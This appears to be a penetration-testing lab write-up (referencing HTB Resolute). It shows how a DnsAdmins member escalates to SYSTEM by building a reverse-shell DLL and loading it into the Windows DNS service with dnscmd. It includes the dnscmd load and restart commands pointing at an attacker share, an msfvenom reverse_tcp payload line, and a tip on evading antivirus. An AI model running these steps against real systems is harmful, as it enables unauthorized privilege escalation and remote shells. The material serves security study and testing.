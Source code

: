 ```yaml
---
layout: post
title: Malicious DLL Injection
description: Malicious DLL Injection
summary: Malicious DLL Injection
tags: [dns,privesc,windows]
minute: 1
---
```

## Overview
If low privileged user is a member of `DnsAdmins`, attacker can inject a malicuous DLL in DNS service and achieve privilege escalation.

## Environment Setup and Requirements
* Low privileged user must be a member of `DnsAdmins`
* Low privileged user must be able to start and stop DNS service
* Separate attacker windows machine for compiling DLL

## Steps
* Download this [DLL DNS plugin](https://github.com/dim0x69/dns-exe-persistance) and open it in attacker windows machine
* Get this [reverse shell](https://github.com/tudorthe1ntruder/reverse-shell-poc/blob/master/rs.c), update it with your IP/PORT settings, and put it under sources. Ensure to add `#include "stdafx.h"` at the top.

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/95AB122B-C8B0-41F0-952F-B4399E09CA94.png)

* Create this header file

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/7E830899-6043-4556-8937-60E2BAA92DC1.png)

* Update the main code. These changes below will create a new thread which help prevent crashing the DNS service.

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/FD577ECA-AAFC-4644-A205-6CEEB0CD09EA.png)

* Change to "Release" and start building

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/F49524CA-53B0-402B-8A2D-3BC0AFEE46B4.png)

* DLL should be generated similar to this path. Transfer it to victim machine.

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/B5913B2A-E0A5-439D-ACCC-8BEFCAA2D9FE.png)

* Open netcat listener on attacker
* Inside victim, load the DLL into DNS service and restart DNS to activate it. In this step, we are loading the DLL from attacker share to bypass some AV.

```powershell
# load
dnscmd /config /serverlevelplugindll \\10.10.14.31\share\Win32Project1.dll

# verify
dnscmd /config /serverlevelplugindll \\10.10.14.31\share\Win32Project1.dll

# stop dns
cmd /c sc stop dns

# start dns
cmd /c sc start dns
```

## Troubleshooting
* For some reason, DLL generated by msfvenom doesn't work. Seems its crashing the DNS service.

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f dll > evil.dll
```

* If you encounter MFC errors during build, install the MFC libraries from Visual Studio Installer

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/91D4854E-486D-411A-9732-E40C0FAACD16.png)

* If you encounter `revshell: must return a value`, add a return value at the end of `rev.cpp`

```cpp
// [..redacted...]
	WSACleanup();
	return 0;
}
```

## References
* HTB Resolute
* [Escalating Privileges with DNSAdmins Group](https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b)
* [From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise#abuse-dns-with-dnscmd)
